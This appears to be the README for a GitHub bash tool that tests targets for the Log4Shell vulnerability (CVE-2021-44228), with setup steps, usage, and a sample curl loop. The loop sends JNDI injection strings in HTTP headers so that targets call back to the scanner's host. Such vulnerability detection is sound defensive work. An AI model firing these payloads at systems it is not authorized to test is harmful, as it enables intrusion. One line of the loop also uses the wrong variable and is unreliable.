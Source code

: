 # log4jScanner

 log4jScanner.sh is a BASH script to confirm the vulnerability (CVE-2021-44228) of a given IP/URL.
 
 The testing methedology is completely noninvasive. 
 
## Requirements

If you prefer to test the internet facing target, then this test requires to be executed on a DMZ host,
on which you can open desired port for scanner's return traffic from the target. I have used and tested on free tier AWS EC2 Kali Linux instance. 

If you prefer to test the intranet facing target, then you simply make sure that scanner-port is reachable to the target. 
[Example: ./log4jScanner.sh 192.168.1.100:443 1389]

## Prepare the Kali instance with the below mentioned packages.

```bash
 apt install iptables iptables-persistence rsyslog curl vim
 
 systemctl restart rsyslog
 
```
## Download the script
```bash
git clone https://github.com/defcon250/log4jScanner
```

## Usage

```bash
  cd ./log4jScanner
  ./log4jScanner.sh  <Target-IP>:<Target-Port>  <Scanner's-Return-Traffic-Port>  
  
  [Example: ./log4jScanner.sh 192.168.1.100:443 1389]

```
## For testing multiple IP/URLs, please feel free to modify the script accordingly.
```bash
FOR loop example: 
for i in $(cat "$VAR001"); do timeout 2 curl -ksqL http://"$i" -H "x-api-version: \${jndi:ldap://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:ldaps://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}" 1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:ldaps://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1>  /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:dns://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1> /dev/null; timeout 2 curl -ksqL http://"$VAR001" -H "user-agent: \${jndi:rmi://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}" 1> /dev/null; done
````


